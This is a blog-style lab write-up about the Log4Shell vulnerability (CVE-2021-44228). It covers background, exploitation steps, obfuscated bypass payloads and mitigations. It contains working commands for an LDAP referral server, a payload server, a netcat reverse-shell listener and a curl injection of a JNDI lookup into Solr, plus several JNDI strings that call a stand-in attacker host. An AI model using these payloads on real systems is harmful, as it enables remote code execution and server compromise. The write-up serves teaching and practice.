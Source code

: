 ```yaml
---
title: "CVE-2021-44228 Log4j Exploit - Log4Shell"
description: "Exploiting Log4j vulnerability, bypasses and mitigation."
date: "2021-12-14"
categories: [Lab]
tags: [linux, red team, penetration testing, zeroday]
pin: true
math: true
mermaid: true
image:
  path: "/assets/img/log4shell/log4j.png"
  alt: "Log4Shell"
---
```


`Log4j` took the internet by storm. Any social media app that you open, people will be talking about `log4j` somewhere, somehow. Even the gaming community mentioning `Log4j`. As this attack was noted in the wild to be used against a Minecraft server in an RCE but the reason the Minecraft server was compromised also affects millions of other applications and servers because `Log4j` is used by so many. `Log4j` is an open source Java utility by Apache built into many applications that easily logs user input and performs network lookups within the `JNDI`, to obtain services from `LDAP`. `Log4j` captures a message as a URL, fetches the correct response and can execute code.

This vulnerability, also known as `Log4Shell` can be identified as `CVE-2021-44228`. By the weekend, it was widely known to be a huge concern due to its ease of attacks and the potential to compromise servers giving its attack surface is relatively ubiquitous and used across millions of applications. 

According to the CEO of Cloudflare, Matthew Prince, the exploit has been in the wild at least 9 days before publicly disclosed.

![Log4Shell](/assets/img/log4shell/ceo.png)

<br>

### Exploitation

"LDAP Referrer Server" is used to redirect the initial request of the victim to another location which in this case is our payload server.

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.8.108.138:8000/#Exploit"
```

While our java payload will be serving on port 8000:

```
python3 -m http.server 8000
```

Listening on port 9999 on attacker machine:

```
nc -lvnp 9999
```

Executing the payload:

```
curl 'http://10.10.99.121:8983/solr/admin/cores?foo=$\{jndi:ldap://10.8.108.138:1389/Exploit\}'
```

<br>

![Log4Shell](/assets/img/log4shell/poc.png)

<br>

### Bypasses

Some bypasses from a few sources:

```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}

${${::-j}ndi:rmi://attackerendpoint.com/}
```

<br>

### Mitigation

Cloudflare has since already been updated the managed ruleset with `Log4j` detection.

![Log4Shell](/assets/img/log4shell/cloudflarewaf.png)

`log4j` version `2.16.0` has been released and patches this vulnerability (`JNDI` is fully disabled, support for Message Lookups is removed, and the new DoS vulnerability `CVE-2021-45046` is not present anymore).

`log4j-jndi-be-gone`, a simple Java agent from nccgroup can also be used to disable `log4j JNDI` handler covering Java 6 through Java 17.

Github: [log4j-jndi-be-gone](https://github.com/nccgroup/log4j-jndi-be-gone)

<br>

### Learn more:

More stuff: [John Hammond's Youtube video walking through the Log4j exploit on a Minecraft server.](https://www.youtube.com/watch?v=7qoPDq41xhQ)

If you want to learn and practice more on `Log4j`, TryHackMe has a greate room created by John Hammond himself: [TryHackme - Solr: Exploiting Log4j](https://tryhackme.com/room/solar)
